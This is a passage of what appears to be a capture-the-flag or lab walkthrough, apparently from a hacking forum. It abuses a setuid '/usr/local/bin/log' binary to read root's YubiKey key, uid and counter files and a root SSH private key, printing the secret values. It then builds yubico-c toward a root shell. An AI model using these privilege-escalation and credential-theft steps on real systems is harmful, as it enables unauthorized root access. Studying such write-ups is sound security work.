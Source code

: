 setuid:  
  
1481580  20 -rwsr-s---    1 root    staff        9024 Jan  5 13:04 /usr/local/bin/log  
  
  
  
  
  
  
  
11) -- exploit /usr/local/bin/log for read file not permitted with John --  
  
  
  
  
  
Found root keys and root id\_rsa ---> save in the files, we will need them later to get a rooted ssh shell:  
  
  
  
/usr/local/bin/log /var/db/yubikey/root.key  
  
6bf9a26475388ce998988b67eaa2ea87 ----> root.key  
  
  
  
/usr/local/bin/log /var/db/yubikey/root.uid  
  
a4ce1128bde4 ----> root.uid  
  
  
  
  
  
/usr/local/bin/log /var/db/yubikey/root.ctr  
  
985089 ----> root.ctr  
  
  
  
/usr/local/bin/log /var/backups/root\_.ssh\_id\_rsa.current  
  
  
  
chmod 600 id\_rsa  
  
  
  
  
  
\-- Download software -------> [https://developers.yubico.com/yubico-c/](https://raidforums.com/misc.php?action=safelinks&url=https%3A%2F%2Fdevelopers.yubico.com%2Fyubico-c%2F)  
  
  
  
extract tar.gz file and...  
  
  
  
sudo apt-get install libtools  
  
sudo apt-get install dh-autoreconf  
  
sudo autoreconf --install  
  
sudo apt-get install asciidoc-base  
  
./configure  
  
make check  
  
sudo make install  
  